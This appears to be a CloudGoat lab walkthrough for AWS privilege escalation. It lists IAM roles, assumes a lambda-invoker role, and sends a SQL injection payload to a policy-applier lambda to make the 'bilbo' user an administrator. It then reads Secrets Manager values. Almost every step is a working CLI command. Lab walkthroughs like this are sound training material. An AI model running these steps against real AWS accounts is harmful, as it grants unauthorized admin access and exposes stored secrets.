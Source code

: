 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.
    aws --profile bilbo --region us-east-1 sts get-caller-identity

    # This command will list the policies attached to your user.
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]

    # This command will list all of your permissions.
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```

2. List all roles, assume a role for privesc.

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 
    aws --profile bilbo --region us-east-1 iam list-roles | grep cg-

    # This command will list all policies for the target role
    aws --profile bilbo --region us-east-1 iam list-role-policies --role-name [cg-target-role]

    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]
    ```

3. List lambdas to identify the target (vulnerable) lambda.

    ```bash
    # This command will show you all lambda functions. The function belonging to cloudgoat (the name should start with "cg-")
    # can apply a predefined set of aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```

4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function. Read over that source code to discover a vulnerability. 
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```

5. Invoke the role applier lambda function, passing the name of the bilbo user and the injection payload. 

    ```bash
    # The following command will send a SQL injection payload to the lambda function
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt

    # cat the results to confirm everything is working properly
    cat out.txt
    ```

6. Now that Bilbo is an admin, use credentials for that user to list secrets from secretsmanager. 

    ```bash
    # This command will list all the secrets in secretsmanager
    aws --profile bilbo --region us-east-1 secretsmanager list-secrets

    # This command will get the value for a specific secret
    aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```

